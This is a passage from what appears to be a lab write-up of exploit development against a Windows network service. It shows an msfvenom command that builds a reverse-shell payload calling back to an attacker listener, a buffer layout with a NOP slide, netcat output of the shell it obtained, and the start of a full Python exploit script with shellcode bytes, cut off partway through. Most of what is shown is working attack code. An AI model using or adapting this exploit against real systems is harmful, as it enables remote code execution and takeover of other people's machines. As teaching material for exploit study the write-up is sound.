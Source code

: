 ```
 We were able to redirect the flow and land in a memory that is under our control. The last step is to use shellcode to get a reverse shell.

### Getting Access

We will use msfvenom to generate the reverse shell payload with following properties `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.130.1 LPORT=4444 -f python -v shellcode -b '\x00' EXITFUNC=thread`. As this is a threaded application, it seems that without EXITFUNC=thread it doesn't reliably work. Also it is needed to add nop-slide, otherwise the shellcode doesn't run.As we have enough space on the stack, we can just chain it together.

```
buf += eip
buf += b"\x90" * 30
buf += shellcode
buf += b"C"*(0xBB8 -len(buf))
```

And vioala we have the a working exploit.

```
labman@lab ~ % netcat -l -p 4444

Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Windows Kits\10\Debuggers>
C:\Program Files\Windows Kits\10\Debuggers>
C:\Program Files\Windows Kits\10\Debuggers>^C%
```

### The whole exploit script

```
 #!/usr/bin/python
 import socket, sys
 from struct import pack
 import time

 def main():
 	server = "192.168.130.169"
 	port = 9999

 	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 	s.connect((server, port))

 	print(s.recv(1024))

 	# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.130.1 LPORT=4444 -f python -v shellcode -b '\x00' EXITFUNC=thread
 	shellcode =  b""
 	shellcode += b"\xdb\xd9\xba\xe2\x7a\x35\xd9\xd9\x74\x24\xf4"
 	shellcode += b"\x5b\x2b\xc9\xb1\x52\x31\x53\x17\x03\x53\x17"
 	shellcode += b"\x83\x21\x7e\xd7\x2c\x59\x97\x95\xcf\xa1\x68"
 	shellcode += b"\xfa\x46\x44\x59\x3a\x3c\x0d\xca\x8a\x36\x43"
 	shellcode += b"\xe7\x61\x1a\x77\x7c\x07\xb3\x78\x35\xa2\xe5"
 	shellcode += b"\xb7\xc6\x9f\xd6\xd6\x44\xe2\x0a\x38\x74\x2d"
 	shellcode += b"\x5f\x39\xb1\x50\x92\x6b\x6a\x1e\x01\x9b\x1f"
 	shellcode += b"\x6a\x9a\x10\x53\x7a\x9a\xc5\x24\x7d\x8b\x58"
 	shellcode += b"\x3e\x24\x0b\x5b\x93\x5c\x02\x43\xf0\x59\xdc"
 	shellcode += b"\xf8\xc2\x16\xdf\x28\x1b\xd6\x4c\x15\x93\x25"
 	shellcode += b"\x8c\x52\x14\xd6\xfb\xaa\x66\x6b\xfc\x69\x14"
 	shellcode += b"\xb7\x89\x69\xbe\x3c\x29\x55\x3e\x90\xac\x1e"
 	shellcode += b"\x4c\x5d\xba\x78\x51\x60\x6f\xf3\x6d\xe9\x8e"
 	shellcode += b"\xd3\xe7\xa9\xb4\xf7\xac\x6a\xd4\xae\x08\xdc"